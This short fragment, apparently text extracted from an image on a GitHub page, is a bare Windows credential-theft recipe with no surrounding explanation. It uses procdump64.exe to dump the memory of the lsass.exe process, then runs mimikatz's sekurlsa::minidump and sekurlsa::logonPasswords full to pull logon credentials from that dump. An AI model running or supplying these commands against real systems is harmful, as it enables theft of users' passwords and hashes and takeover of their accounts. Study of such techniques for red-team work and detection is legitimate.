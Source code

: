 procdump64.exe  -accepteula  -ma lsass.exe lsass.dmp

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full